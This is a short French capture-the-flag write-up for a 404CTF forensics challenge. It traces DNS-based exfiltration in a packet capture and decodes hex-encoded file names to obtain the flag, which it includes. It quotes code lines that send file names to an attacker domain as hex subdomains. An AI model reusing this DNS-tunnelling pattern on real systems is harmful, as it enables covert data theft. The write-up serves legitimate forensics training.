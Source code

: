 En lisant le fichier python on remarque que l'agent compromis effectue uniquement des requetes DNS.

On peut donc avec Wireshark filtrer uniquement les requetes DNS.

En annaltsant plus loin ~~on~~ remarque que il commence toujours par

`dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")`

avant d'effectuer : 

`dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")`

donc en cherchant tout les paquets qui commencent par ‘never....’ on peut trouver dans les requetes qui suivent le nom des fichires extraits .

on peut les lister et après les avoir traduit avec la fonction unhexlify de binascii on trouve : 

- exfiltration.py
- flag.txt
- hallebarde.png
- super-secret.pdf

donc le flag est : 

>404CTF{exfiltration.py,flag.txt,hallebarde.png,super-secret.pdf}